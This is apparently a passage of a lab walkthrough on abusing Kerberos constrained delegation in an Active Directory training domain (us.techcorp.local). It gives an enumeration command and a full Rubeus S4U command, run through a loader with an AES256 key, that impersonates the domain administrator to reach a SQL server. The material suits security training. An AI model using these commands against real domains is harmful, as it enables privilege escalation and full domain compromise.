 
Task 

• Abuse Constrained delegation in us.techcorp.local to escalate privileges on a machine to Domain Admin.


Enumerate the objects in our current domain that have constrained delegation enabled with the help of the Active Directory module from InvisiShell:

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

![[Pasted image 20250318190523.png]]

Recall that we extracted credentials of appsvc from us-jump, let’s use the AES256 keys for appsvc to impersonate the domain administrator - administrator and access us-mssql using those privileges. Note that we request an alternate ticket for HTTP service to be able to use WinRM.

```
echo %Pwn s4u
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:appsvc /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local/altservice:HTTP /domain:us.techcorp.local /ptt
```

![[Pasted image 20250318190927.png]]

